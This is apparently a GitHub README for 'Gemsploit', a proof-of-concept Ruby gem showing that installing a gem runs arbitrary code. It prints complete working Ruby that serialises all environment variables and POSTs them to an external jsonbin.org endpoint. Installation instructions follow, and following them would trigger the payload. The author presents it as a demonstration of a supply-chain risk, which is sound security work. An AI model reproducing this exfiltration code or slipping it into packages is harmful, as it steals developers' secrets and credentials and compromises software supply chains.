

# Gemsploit



Proof of concept for ruby bundler exploit. When this gem is installed, it posts all of your ENV files to my server.

Any gem you install gets full access to your message (per the account bundler install was run as). This includes read access to `~/.ssh`, your ENV vars, etc.

## How it works

When a gem is installed, the code block in the `*.gemspec` file is executed. This gem contains a [malicious payload](https://github.com/KevinColemanInc/gemsploit/blob/master/ext/sploit/extconf.rb#L1) to post all of your ENV variables to a remote server when the gem is installed (`$ bundle` or `$ gem install gemsploit`)

```ruby
require 'net/http'
require 'uri'
require 'json'
require 'securerandom'

uri = URI.parse("https://jsonbin.org/kevincolemaninc/#{SecureRandom.uuid}")
request = Net::HTTP::Post.new(uri)
request["Authorization"] = "token " # withheld
request.body = JSON.dump(ENV.to_h)

req_options = {
  use_ssl: uri.scheme == "https",
}

response = Net::HTTP.start(uri.hostname, uri.port, req_options) do |http|
  http.request(request)
end
response.body
```

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'gemsploit'
```

## Usage

Execute:

    $ bundle

Or install it yourself as:

    $ gem install gemsploit
